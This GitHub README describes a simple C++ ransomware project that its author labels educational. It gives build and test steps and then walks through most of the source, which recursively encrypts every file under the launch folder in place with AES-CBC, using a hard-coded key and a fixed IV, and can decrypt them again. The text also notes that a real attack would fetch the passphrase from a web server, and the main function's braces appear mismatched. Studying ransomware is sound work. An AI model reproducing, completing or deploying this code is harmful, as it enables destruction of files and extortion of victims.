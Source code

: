 ## About
- **TESTED ON ARCH LINUX ONLY**
- **INTENDED FOR EDUCATIONAL PURPOSES ONLY.**
- This ransomware is a very simple program that encrypts instead of a whole drive only recursively files from the folder it was
started from.
- It is very heavy on processor and even if I managed to lower RAM usage it's still not perfect.

## Requirements
- `crypto++` C++ library for `ransomware.cpp` installed from source.
- `wget`, `dd` and `yes` for `maketest.sh`.
- `c++` compiler (recommended `g++`).

## Build
1. `git clone https://github.com/ErnestNoga/ransomware`
2. `cd ransomware`
3. `mkdir build`
4. `cd build`
5. `cmake ..`
6. `make`  
After all these steps are completed you should have file called `ransomware` in current folder, it is an executable
that will encrypt all files recursively from the folder it was launched from.

## Testing
If you wish to see how the ransomware works in practice then this part is for you.  
1. `cd` into the cloned repository folder after it was [built](https://github.com/ErnestNoga/ransomware#user-content-build).
2. `./maketest.sh` and wait. This will take a long time.
3. `cd test`
4. Now go through all files and see their unencrypted values. **TIP:** use `cat ./<FILE_NAME>` when reading files in `weird_names` directory.
When checking `a_lot_of_dirs` use `for` loop to enter directories inside.
example in bash: `for i in {1..100..1}; do cd $i; done`. When exiting the directory use the same for loop but change `$i`
to `..`.
5. Now enter once again the main test directory
6. `../build/ransomware`and wait again this too will take a long time depending on the processing power of your PC.
7. Now inspect the files again to see their encrypted versions.
8. Go back to main test directory.
9. `../build/ransomware 1` and wait for files to decrypt. `1` can be replaced by any other argument only thing that matters
is that total argument number won't be less than 2.
10. Check files once again and see their decrypted values. It should be the same.

## Walkthrough
This part of README.md will be focused on explaining how ransomware works

> ### Imports
>>These are imports of this program, all the ones beginning with `cryptopp` belong to `crypto++` library which is used for encryption itself.
>> You can remove some of those imports without breaking the code because they are already imported by some header files included before, 
>> but I felt I should leave them there anyway for clarity's sake.
>>```c++
>> #include <cryptopp/aes.h>
>> #include <cryptopp/files.h>
>> #include <cryptopp/modes.h>
>> #include <cryptopp/channels.h>
>> 
>> #include <experimental/filesystem>
>> #include <string>
>> #include <sys/stat.h>
>>```  

> ### Custom namespaces
>> This line of code shortens `std::experimental::filesystem` namespace to `fs`.
>> ```c++
>> namespace fs = std::experimental::filesystem;
>> ```

> ### Encrypt function
>>This `void encrypt` function is defined as `void` since it does not return anything,
it requires two arguments: `filename` which is path of the file to encrypt and reference to `pwd` which is passphrase used to encrypt the file.
>> ```c++
>> void encrypt(const char filename[], const std::string &pwd)
>> ```
>>
>> First we define `temp_filename` variable which will be the name of temporary file that `encrypt` function will be writing encrypted data to.
>> ```c++
>> const char temp_filename[] = "temp";
>> ```
>> 
>> This `try .. catch` catches OpenErr which usually means incorrect permission and then sets correct ones.
>> Next `catch` catches all `CryptoPP::Exception` and removes temporary file.
>> ```c++
>> try {
>>    ...
>> } catch (CryptoPP::FileStore::OpenErr &err) {
>>     std::cerr << err.what() << std::endl;
>>     chmod(filename, S_IRWXU);
>>     encrypt(filename, pwd);
>> } catch (CryptoPP::Exception &err) {
>>     fs::remove(temp_filename);
>> }
>> ```
>> 
>> Next line of `encrypt` function prints information about current file that is being encrypted 
>> ```c++
>> std::cout << "Encrypting: " << filename << std::endl;
>> ```
>>
>>
>> After that we create `iv` array of `CryptoPP::byte` which will be our initialization vector with size of 16 and set all of its indexes to `0x01` byte
>> ```c++
>> CryptoPP::byte iv[16];
>> memset(iv, 0x01, 16);
>> ```
>>
>> Next we define our `encryptor` object which requires three arguments: array of CryptoPP::byte as passphrase, passphrase
>> length and initialization vector. We specify AES CBC mode.
>> ```c++
>> CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption encryptor((CryptoPP::byte*)&pwd[0], pwd.size(), iv);
>> ```
>>
>> Next we create `filter` object which requires three arguments: stream transformer which will be used to transform data
>> put into it
>> and unnamed `CryptoPP::FileSink` object which is basically the destination file. After that we create `channel_switch` object
>> used for optimization, and we add to it default route through `filter`
>> ```c++
>> CryptoPP::StreamTransformationFilter filter(encryptor, new CryptoPP::FileSink(temp_filename));
>> CryptoPP::ChannelSwitch channel_switch;
>> channel_switch.AddDefaultRoute(filter);
>> ```
>>
>> Then we create two `CryptoPP::FileSource` objects: first one pumps all our data through filter, second one will move encrypted
>> data to original file. Both of these objects require three arguments: source file, whether to read and process all data, and
>> `CryptoPP::BufferedTransformation` object such as filter or sink. I could have also just renamed the temporary file, 
>> but that would cause the original file to lose all permissions it previously had.
>> ```c++
>> CryptoPP::FileSource(filename, true, new CryptoPP::Redirector(channel_switch));
>> CryptoPP::FileSource(temp_filename, true, new CryptoPP::FileSink(filename));
>> ```
>>
>> After that remove our temporary file.
>> ```c++
>> fs::remove(temp_filename);
>> ```

> ### Decrypt function
>> `decrypt` function is basically the same as `encrypt` just that the `CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption` is changed to
>> `CryptoPP::CBC_Mode<CryptoPP::AES>::Decryption` and some variable names, so I'm not going to waste both of our time explaining it.

> ### Main function
>> This is standard definition of main function in both c and c++, `int argc` is argument count, and `char **argv` is
>> array of arguments.
>> ```c++
>> int main(int argc, char **argv)
>> ```
>>
>> This is creation of pwd string variable it is created with const keyword because it will not be changed. During
> real attack we would download passphrase from web server or use some other way to make it unreadable from compiled file.
>> ```c++
>> const std::string pwd = "12345678901234567890123456789012";
>> ```
>> 
>> `if` statement checks if argument count is 1, because if it is then we can be sure that only executable path was given.
>> If `argc == 1` then it starts for loop iterating through contents of current directory recursively, and if the path
>> of current iteration isn't a directory then it encrypts it. In the case where `argc != 0` then it instead decrypts
> the files.
>> ```c++
>> if (argc == 1) {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          encrypt(i.path().string().c_str(), pwd);
>>       } else {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          decrypt(i.path().string().c_str(), pwd);
>>    }
>> }
>> ```
